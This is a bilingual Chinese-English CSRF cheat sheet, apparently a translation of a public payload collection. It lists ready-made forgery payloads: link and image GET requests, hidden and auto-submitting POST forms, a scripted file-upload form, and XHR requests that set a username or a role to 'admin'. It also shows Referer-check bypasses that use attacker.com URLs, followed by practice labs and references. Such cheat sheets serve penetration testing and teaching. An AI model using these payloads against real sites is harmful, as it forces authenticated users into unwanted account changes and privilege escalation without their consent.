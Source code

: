 # Cross-Site Request Forgery - 跨站请求伪造

> 跨站点请求伪造 (CSRF/XSRF) 是一种攻击，迫使用户在他们当前已通过身份验证的 Web 应用程序上执行不需要的操作。 CSRF 攻击专门针对状态更改请求，而不是数据窃取，因为攻击者无法看到对伪造请求的响应。 - OWASP

## Summary - 总结


- [Cross-Site Request Forgery - 跨站请求伪造](#cross-site-request-forgery---跨站请求伪造)
  - [Summary - 总结](#summary---总结)
  - [Tools - 工具](#tools---工具)
  - [Methodology - 方法](#methodology---方法)
  - [Payloads](#payloads)
    - [HTML GET - Requiring User Interaction -交互](#html-get---requiring-user-interaction--交互)
    - [HTML GET - No User Interaction - 无交互](#html-get---no-user-interaction---无交互)
    - [HTML POST - Requiring User Interaction - 交互](#html-post---requiring-user-interaction---交互)
    - [HTML POST - AutoSubmit - No User Interaction - 自动提交 无交互](#html-post---autosubmit---no-user-interaction---自动提交-无交互)
    - [HTML POST - multipart/form-data with file upload - Requiring User Interaction - 文件上传 交互](#html-post---multipartform-data-with-file-upload---requiring-user-interaction---文件上传-交互)
    - [JSON GET - Simple Request - 简单请求](#json-get---simple-request---简单请求)
    - [JSON POST - Simple Request - 简单请求](#json-post---simple-request---简单请求)
    - [JSON POST - Complex Request - 复杂请求](#json-post---complex-request---复杂请求)
  - [Bypass referer header validation - Referer头验证绕过](#bypass-referer-header-validation---referer头验证绕过)
    - [Basic payload](#basic-payload)
    - [With question mark(`?`) payload - 问号绕过](#with-question-mark-payload---问号绕过)
    - [With semicolon(`;`) payload - 分号绕过](#with-semicolon-payload---分号绕过)
    - [With subdomain payload - 子域名绕过](#with-subdomain-payload---子域名绕过)
  - [Labs](#labs)
  - [References](#references)


## Tools - 工具

- [XSRFProbe - The Prime Cross Site Request Forgery Audit and Exploitation Toolkit.](https://github.com/0xInfection/XSRFProbe)

## Methodology - 方法

![CSRF-CheatSheet](./images/CSRF-CheatSheet.png)

## Payloads

当登录到某个站点时，通常会有一个 session 。该 session 的标识符存储在浏览器的 cookie 中，并随对该站点的每个请求一起发送。即使某些其他站点触发了请求，cookie 也会随请求一起发送，并且请求的处理方式就好像登录用户执行的一样。

### HTML GET - Requiring User Interaction -交互

```
<a href="http://www.example.com/api/setusername?username=CSRFd">Click Me</a>
```

### HTML GET - No User Interaction - 无交互

```
<img src="http://www.example.com/api/setusername?username=CSRFd">
```

### HTML POST - Requiring User Interaction - 交互

```
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
```

### HTML POST - AutoSubmit - No User Interaction - 自动提交 无交互

```
<form id="autosubmit" action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
 
<script>
 document.getElementById("autosubmit").submit();
</script>
```

### HTML POST - multipart/form-data with file upload - Requiring User Interaction - 文件上传 交互

```
<script>
function launch(){
    const dT = new DataTransfer();
    const file = new File( [ "CSRF-filecontent" ], "CSRF-filename" );
    dT.items.add( file );
    document.xss[0].files = dT.files;

    document.xss.submit()
}
</script>

<form style="display: none" name="xss" method="post" action="<target>" enctype="multipart/form-data">
<input id="file" type="file" name="file"/>
<input type="submit" name="" value="" size="0" />
</form>
<button value="button" onclick="launch()">Submit Request</button>
```

### JSON GET - Simple Request - 简单请求

```
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```

### JSON POST - Simple Request - 简单请求

```
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
//application/json is not allowed in a simple request. text/plain is the default
xhr.setRequestHeader("Content-Type", "text/plain");
//You will probably want to also try one or both of these
//xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
//xhr.setRequestHeader("Content-Type", "multipart/form-data");
xhr.send('{"role":admin}');
</script>
```

### JSON POST - Complex Request - 复杂请求

```
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>
```

## Bypass referer header validation - Referer头验证绕过

### Basic payload

```
1) Open https://attacker.com/csrf.html
2) Referer header is ..

Referer: https://attacker.com/csrf.html
```

### With question mark(`?`) payload - 问号绕过

```
1) Open https://attacker.com/csrf.html?trusted.domain.com
2) Referer header is ..

Referer: https://attacker.com/csrf.html?trusted.domain.com
```

### With semicolon(`;`) payload - 分号绕过

```
1) Open https://attacker.com/csrf.html;trusted.domain.com
2) Referer header is ..

Referer: https://attacker.com/csrf.html;trusted.domain.com
```

### With subdomain payload - 子域名绕过

```
1) Open https://trusted.domain.com.attacker.com/csrf.html
2) Referer headers is ..

Referer: https://trusted.domain.com.attacker.com/csrf.html
```

## Labs

- [CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)
- [CSRF where token validation depends on request method](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-request-method)
- [CSRF where token validation depends on token being present](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-token-being-present)
- [CSRF where token is not tied to user session](https://portswigger.net/web-security/csrf/lab-token-not-tied-to-user-session)
- [CSRF where token is tied to non-session cookie](https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie)
- [CSRF where token is duplicated in cookie](https://portswigger.net/web-security/csrf/lab-token-duplicated-in-cookie)
- [CSRF where Referer validation depends on header being present](https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present)
- [CSRF with broken Referer validation](https://portswigger.net/web-security/csrf/lab-referer-validation-broken)

## References

- [Cross-Site Request Forgery Cheat Sheet - Alex Lauerman - April 3rd, 2016](https://trustfoundry.net/cross-site-request-forgery-cheat-sheet/)
- [Cross-Site Request Forgery (CSRF) - OWASP](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF))
- [Messenger.com CSRF that show you the steps when you check for CSRF - Jack Whitton](https://whitton.io/articles/messenger-site-wide-csrf/)
- [Paypal bug bounty: Updating the Paypal.me profile picture without consent (CSRF attack) - Florian Courtial](https://hethical.io/paypal-bug-bounty-updating-the-paypal-me-profile-picture-without-consent-csrf-attack/)
- [Hacking PayPal Accounts with one click (Patched) - Yasser Ali](http://yasserali.com/hacking-paypal-accounts-with-one-click/)
- [Add tweet to collection CSRF - vijay kumar](https://hackerone.com/reports/100820)
- [Facebookmarketingdevelopers.com: Proxies, CSRF Quandry and API Fun - phwd](http://philippeharewood.com/facebookmarketingdevelopers-com-proxies-csrf-quandry-and-api-fun/)
- [How i Hacked your Beats account ? Apple Bug Bounty - @aaditya_purani](https://aadityapurani.com/2016/07/20/how-i-hacked-your-beats-account-apple-bug-bounty/)
- [FORM POST JSON: JSON CSRF on POST Heartbeats API - Dr.Jones](https://hackerone.com/reports/245346)
- [Hacking Facebook accounts using CSRF in Oculus-Facebook integration](https://www.josipfranjkovic.com/blog/hacking-facebook-oculus-integration-csrf)
- [Cross site request forgery (CSRF) - Sjoerd Langkemper - Jan 9, 2019](http://www.sjoerdlangkemper.nl/2019/01/09/csrf/)
- [Cross-Site Request Forgery Attack - PwnFunction](https://www.youtube.com/watch?v=eWEgUcHPle0)
- [Wiping Out CSRF - Joe Rozner - Oct 17, 2017](https://medium.com/@jrozner/wiping-out-csrf-ded97ae7e83f)
- [Bypass referer check logic for CSRF](https://www.hahwul.com/2019/10/11/bypass-referer-check-logic-for-csrf/)